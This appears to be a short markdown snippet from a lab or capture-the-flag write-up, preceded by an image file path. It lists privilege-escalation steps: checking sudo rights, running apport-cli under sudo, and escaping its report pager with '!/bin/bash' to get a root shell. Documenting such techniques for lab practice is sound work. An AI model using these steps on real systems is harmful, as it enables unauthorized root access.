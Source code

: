 ### privesc
- `sudo -l`
- `sudo /usr/bin/apport-cli -c dummy.crash` then select the `V: View Report`
- it will open a `pager`, similar to what you'll see when you reading a file using `less`
- it can then execute commands like those in `vim`
- type `!/bin/bash` to spawn shell as root